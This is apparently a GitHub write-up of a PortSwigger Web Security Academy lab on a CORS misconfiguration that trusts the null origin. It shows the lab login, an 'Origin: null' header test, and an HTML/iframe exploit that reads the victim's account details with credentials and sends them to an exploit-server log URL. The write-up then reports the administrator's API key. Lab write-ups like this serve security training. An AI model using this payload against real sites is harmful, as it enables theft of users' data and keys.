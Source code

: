 ## Welcome, my friend. Today we will start the [2. CORS lab](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/7ca449b7-d09d-4de3-8dbb-a33ce19ca8e2)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/672c7594-e733-437d-9a26-6dc60b25df44)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/abddadfa-eddd-46b4-a78f-10b2b162baa1)


### Now, We will use ```burp suite``` and intercept this requst:

![image](https://github.com/user-attachments/assets/de843131-9193-484a-98d3-4a3922af26bd)

## Try add origin header in header request such as:

```
Origin: null
```

![image](https://github.com/user-attachments/assets/88582e3a-ab8a-4edc-901c-260007626a27)


### This website is weak with CORS vulnerability , Now go to server exploit and add this code:

```
<html>
<body>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0afa00740396955684640f0c00150066.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0ac5009e030c950c841b0ef901e0002d.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
</body>
</html>
```

### enter ```sotre``` and ```Deliver exploit to vitim``` then ```access log```:

![image](https://github.com/user-attachments/assets/de7c39a8-203f-4326-9e5a-e53a434d00e3)


### api of administrator: ```1DZHcshk4FAk2HSMNpFETnWFEHxa9HGB```

![image](https://github.com/user-attachments/assets/102d2805-75cd-46c7-884f-c046deeaea12)

![image](https://github.com/user-attachments/assets/02c36ea1-094c-450f-999b-5f393a365b8a)



-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/49ddb0ee-3949-486e-ab16-e23eb9e8a7db" >
</p>
